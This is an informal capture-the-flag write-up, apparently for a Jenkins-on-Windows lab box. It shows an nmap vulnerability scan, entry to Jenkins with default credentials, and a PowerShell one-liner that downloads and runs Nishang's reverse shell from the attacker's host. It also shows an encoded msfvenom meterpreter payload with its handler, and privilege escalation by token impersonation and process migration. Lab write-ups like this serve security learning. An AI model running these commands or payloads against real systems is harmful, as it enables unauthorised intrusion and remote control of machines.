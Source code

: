 └──╼ $nmap -A -T4 --script vuln -p- -oN initial.nmap 10.10.60.95
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-12 14:28 UTC
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.60.95
Host is up (0.10s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 7.5
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-server-header: Microsoft-IIS/7.5
| vulners: 
|   cpe:/a:microsoft:internet_information_services:7.5: 
|     	PACKETSTORM:180580	10.0	https://vulners.com/packetstorm/PACKETSTORM:180580	*EXPLOIT*
|     	MSF:AUXILIARY-DOS-WINDOWS-FTP-IIS75_FTPD_IAC_BOF-	10.0	https://vulners.com/metasploit/MSF:AUXILIARY-DOS-WINDOWS-FTP-IIS75_FTPD_IAC_BOF-	*EXPLOIT*
|     	CVE-2010-3972	10.0	https://vulners.com/cve/CVE-2010-3972
|     	SSV:20122	9.3	https://vulners.com/seebug/SSV:20122	*EXPLOIT*
|     	CVE-2010-2730	9.3	https://vulners.com/cve/CVE-2010-2730
|     	SSV:20121	4.3	https://vulners.com/seebug/SSV:20121	*EXPLOIT*
|     	PACKETSTORM:180584	4.3	https://vulners.com/packetstorm/PACKETSTORM:180584	*EXPLOIT*
|     	MSF:AUXILIARY-DOS-WINDOWS-HTTP-MS10_065_II6_ASP_DOS-	4.3	https://vulners.com/metasploit/MSF:AUXILIARY-DOS-WINDOWS-HTTP-MS10_065_II6_ASP_DOS-	*EXPLOIT*
|_    	CVE-2010-1899	4.3	https://vulners.com/cve/CVE-2010-1899
|_http-csrf: Couldn't find any CSRF vulnerabilities.
3389/tcp open  ssl/ms-wbt-server?
|_ssl-ccs-injection: No reply from server (TIMEOUT)
8080/tcp open  http               Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|_  /robots.txt: Robots file
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-stored-xss: Couldn't find  any stored XSS vulnerabilities.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 576.27 seconds

system is blatantly running a webservice on an alt port 8080

nmap doesnt tell me about any reverse shells on 8080 so we had to try logging in

***unfortunately I navigated to the 10.10.60.95:8080/robots.txt file but didnt check the main page 10.10.60.95:8080 to see it was hosting jenkins

***the first flag was solved by googling the default uname and password for jenkins lol

***next we were instructed using nishang was a good idea so I put it on my desktop and hosted an http server in that directory to access the exploits

sudo ufw allow 8181
sudo ufw allow 4444

┌─[user@parrot]─[~/Desktop/nishang-master/Shells]
└──╼ $python3 -m http.server 8181
Serving HTTP on 0.0.0.0 port 8181 (http://0.0.0.0:8080/) ...

netcat -lvnp 4444

Initial upload to jenkins
powershell iex (New-Object Net.WebClient).DownloadString(‘http://10.23.80.154:8181/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.23.80.154 -Port 4444

flag was on user desktop

┌─[user@parrot]─[~]
└──╼ $msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.23.80.154 LPORT=4444 -f exe -o name.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai chosen with final size 381
Payload size: 381 bytes
Final size of exe file: 73802 bytes
Saved as: name.exe

made msfvenom payload

[msf](Jobs:0 Agents:0) >> use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set HOST 10.23.80.154
[!] Unknown datastore option: HOST. Did you mean LHOST?
HOST => 10.23.80.154
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LHOST 10.23.80.154
LHOST => 10.23.80.154
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LPORT 4444
LPORT => 4444
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run

[*] Started reverse TCP handler on 10.23.80.154:4444 


started TCP handler for meterpreter

once in the challenge has you find a flag in the system

use incognito 

list_tokens -g

which shows the impersonate_token "BUILTIN\Administrators"  is available

 run the desired process such as the flag by migrating to a priviledged process

for example with "tasklist"

 find the PID of spooler and just

migrate 1219 

which enables me to migrate to the spooler service and then you can just 

cat C:\Windows\System32\config\root.txt

rooted the system PWNed
